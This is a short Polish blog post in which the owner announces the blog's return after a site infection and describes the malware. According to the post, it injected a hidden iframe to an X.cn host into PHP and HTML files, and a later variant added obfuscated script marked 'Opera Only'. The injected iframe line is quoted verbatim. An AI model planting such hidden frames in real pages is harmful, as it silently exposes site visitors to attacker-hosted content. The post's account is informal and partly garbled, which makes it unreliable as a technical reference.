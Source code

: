 ```yaml
--- 
layout: plpost
title: "Wordpress 2.8.5, powr\xC3\xB3t, o infekcji s\xC5\x82\xC3\xB3w kilka"
category: polish
wordpress_id: 219
wordpress_url: http://kwpolska.co.cc/?p=219
---
```

**Nie tylko o powrocie bloga. Informacje o Ruskiej infekcji ramkowej (.cn).** 
Po kilkudniowej nieobecności spowodowanej Ruską Infekcją Ramkową blog powraca do życia. Wszystkie wpisy wróciły na swoje miejsca, blog zmienił wygląd. Sam silnik został zaktualizowany do wersji 2.8.5. Ale to nie jest najważniejsza część wpisu.

Infekcja schowanej ramki, ochrzczona przeze mnie jako **Ruska Infekcja Ramkowa** zmieniła się. Zaczęło się od wirusa edytującego wszystkie pliki .php, .html, .phpX, .shtml, .phtml i wiele więcej w celu doklejenia ramki:

`<iframe src="http://X.cn/img/index.php" style="display: none;" />` 
Tej wersji zapobiegało się bardzo prosto - wystarczyło czyszczenie plików ręcznie (lub przywrócenie z backupu) i komputera. Infekcja była groźna wszędzie i wszędzie miała taki sam charakter. Przeglądarki jednakże blokują złośliwy kod. Następna wersja jest już gorsza. Infekcję rozpoznają mądrzejsze przeglądarki. Kod HTML zaczyna się od

`/* Warning: Opera Only */` 
- potem znajdował się zaszyfrowany skrypt. Miał on po rozszyfrowaniu taką samą postać, jak listing 1, ale jego jedyną drogą rozprzestrzeniania się był nie tylko schemat A (KTÓRY ZABRALI), infekcja na mój serwer dostała się przez exploit (lukę). Co z wirusem będzie dalej okaże się w najbliższej przyszłości.
